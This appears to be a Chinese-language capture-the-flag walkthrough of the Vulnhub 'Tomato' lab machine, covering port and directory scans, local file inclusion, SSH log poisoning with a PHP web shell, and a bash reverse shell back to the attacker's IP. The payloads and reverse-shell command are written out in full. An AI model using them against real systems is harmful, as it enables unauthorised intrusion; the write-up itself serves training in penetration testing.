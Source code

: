 # Tomato

### 目标探测

Nmap扫描目标开放端口

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/Vulnhub/Tomato]
└─# nmap -sV -p- 192.168.19.147 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 22:23 EDT
Nmap scan report for 192.168.19.147
Host is up (0.00086s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
MAC Address: 00:0C:29:6E:EA:1C (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.96 seconds
```

访问一下目标的80端口

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

没什么有用的信息，在看看8888端口

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

好吧，是个登录界面，让我们再回到80端口页面，dirb扫描看下有没有扫描有用的东西

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/Vulnhub/Tomato]
└─# dirb http://192.168.19.147/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 12 06:27:27 2023
URL_BASE: http://192.168.19.147/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.19.147/ ----
==> DIRECTORY: http://192.168.19.147/antibot_image/                                                                
+ http://192.168.19.147/index.html (CODE:200|SIZE:652)                                                             
+ http://192.168.19.147/server-status (CODE:403|SIZE:279)                                                          
                                                                                                                   
---- Entering directory: http://192.168.19.147/antibot_image/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Sep 12 06:27:30 2023
DOWNLOADED: 4612 - FOUND: 2
```

让我们访问一下/antibot\_image这个目录，发现了一些有趣的东西

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

发现info.php是一个phpinfo页面，

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

查看网页源码发现有一个注释有一个文件包含，传的参数为image

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

我们尝试一下LFI读取一下它的/etc/passwd

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

看下能否读取到它的服务日志文件，通过nmap扫描的信息可以看出它有两个web服务日志，Apache和Nginx，有关文件包含的内容我们可以查看下面这篇文章。

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion" %}

我们尝试包含一下/var/log/auth.log这个文件

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

然后我们尝试以一句话木马作为用户名ssh登录

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/Vulnhub/Tomato]
└─# ssh '<?php system($_GET["shell"]); ?>'@192.168.19.147 -p2211
<?php system($_GET["shell"]); ?>@192.168.19.147's password: 
Permission denied, please try again.
<?php system($_GET["shell"]); ?>@192.168.19.147's password: 
Permission denied, please try again.
<?php system($_GET["shell"]); ?>@192.168.19.147's password: 
<?php system($_GET["shell"]); ?>@192.168.19.147: Permission denied (publickey,password).
```

然后我们可以通过shell去执行命令

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

接下来通过burp的重放去反弹shell

```
bash+-c+'bash+-i+>%26+/dev/tcp/192.168.19.130/4444+0>%261'
```

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

本地监听端口返回了一个shell

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/Vulnhub/Tomato]
└─# nc -lnvp 4444                           
listening on [any] 4444 ...
connect to [192.168.19.130] from (UNKNOWN) [192.168.19.147] 55536
bash: cannot set terminal process group (905): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/antibot_image/antibots$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html/antibot_image/antibots$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/html/antibot_image/antibots$
```

